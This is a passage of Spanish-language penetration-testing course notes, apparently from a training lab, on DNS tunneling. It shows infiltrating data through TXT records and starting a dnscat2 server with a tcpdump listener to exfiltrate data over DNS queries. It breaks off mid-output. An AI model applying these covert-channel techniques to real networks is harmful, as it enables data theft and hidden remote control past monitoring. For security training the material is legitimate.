 Se puede ver que hemos añadido dos líneas con contenido refiriendo dos txt records y seguidamente hemos reiniciado el servicio con la configuración del fichero especificado y en primer plano.

De esta forma, cualquier DNS request para el dominio 'www.feline.corp' tendrá como vuelta las dos líneas anteriores:

```
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		192.168.50.64
Address:	192.168.50.64#53

Non-authoritative answer:
www.feline.corp	text = "here's something useful!"
www.feline.corp	text = "here's something else less useful."

Authoritative answers can be found from:

database_admin@pgdatabase01:~$
```

Esta es una forma de obtener datos en una red interna utilizando registros DNS. Si quisiéramos infiltrarnos en datos binarios, podríamos servirlos como una serie de registros TXT _con codificación hexadecimal_ _Base64_ o ASCII y volver a convertirlos en binarios en el servidor interno.

En esta sección, discutimos cómo podríamos infiltrarnos o filtrar datos a través de varios tipos de registros DNS. En la siguiente sección, obtendremos experiencia práctica con el marco _dnscat2_, que aprovecha estas técnicas para crear un túnel DNS multipropósito.

<br />

#### 2.2. DNS Tunneling with dnscat2.

Podemos utilizar la herramienta *Dnscat2* para exfiltrar datos con DNS queries e infiltrar datos a través de TXT records.

Dnscat2 tiene una arquitectura cliente-servidor. El servidor se ejecuta en un *authoritative name server* y responde a un dominio particular, a su vez el cliente se ejecuta en las máquinas comprometidas y está configurado para realizar queries sobre el dominio en cuestión.

Para comprobar cómo funciona el mecanismo de esta herramienta en profundidad supongámos el caso del laboratorio anterior.

En FELINEAUTHORITY seteamos un listener de tcpdump:

```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

E iniciamos en otra shell el dnscat2-server pasando como argumento el dominio 'feline.corp':

```
kali@felineauthority:~$ dnscat2-server feline.corp

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

```